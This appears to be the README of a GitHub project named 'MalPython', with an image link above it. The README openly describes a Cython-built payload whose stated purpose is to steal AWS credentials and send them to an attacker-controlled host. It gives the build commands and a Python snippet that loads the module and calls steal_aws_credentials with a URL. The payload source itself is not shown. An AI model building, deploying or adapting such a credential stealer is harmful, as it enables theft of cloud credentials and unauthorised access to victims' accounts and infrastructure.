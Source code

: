 # MalPython

Building payload with cython.

Steal the AWS credentials and send it to remote host controlled by attacker.

## Build

```sh
pip3 install cython
python3 setup.py build_ext --inplace
```

## Load

payload can be loaded directly as long as it is stored in known path.

```python
import payload
payload.steal_aws_credentials("http://127.0.0.1:8080")
```